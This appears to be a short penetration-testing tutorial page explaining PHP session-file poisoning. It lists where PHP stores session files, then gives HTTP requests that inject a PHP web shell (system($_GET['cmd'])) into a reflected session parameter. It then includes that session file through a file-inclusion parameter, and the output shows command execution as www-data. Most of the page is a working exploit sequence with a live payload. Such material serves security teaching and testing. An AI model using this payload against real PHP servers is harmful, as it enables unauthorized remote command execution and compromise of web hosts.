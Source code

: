# PHP session

When a web server wants to handle sessions, it can use PHP session cookies (`PHPSESSID`).

1.  Finding where the sessions are stored.

    Examples:

    * Linux : `/var/lib/php5/sess_[PHPSESSID]`
    * Linux : `/var/lib/php/sessions/sess_[PHPSESSID]`
    * Windows : `C:\Windows\Temp\`
2.  Displaying a `PHPSESSID` to see if any parameter is reflected inside.

    Example:

    * The user name for the session (from a parameter called `user`)
    * The language used by the user (from a parameter called `lang`)

    _Exemple :_

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID] HTTP/2

username|s:6:"tester";lang|s:7:"English";
```

3\. Inject some PHP code in the reflected parameter in the session

```http
GET /?user=<%3fphp+system($_GET['cmd'])%3b+%3f> HTTP/2
```

4\. Call the `session file`with the vulnerable parameter to trigger a command exection

```http
GET /?user=/var/lib/php/sessions/sess_[PHPSESSID]&cmd=id HTTP/2

</h2> username|s:30:"uid=33(www-data) gid=33(www-data) groups=33(www-data)
";lang|s:7:"English";
```
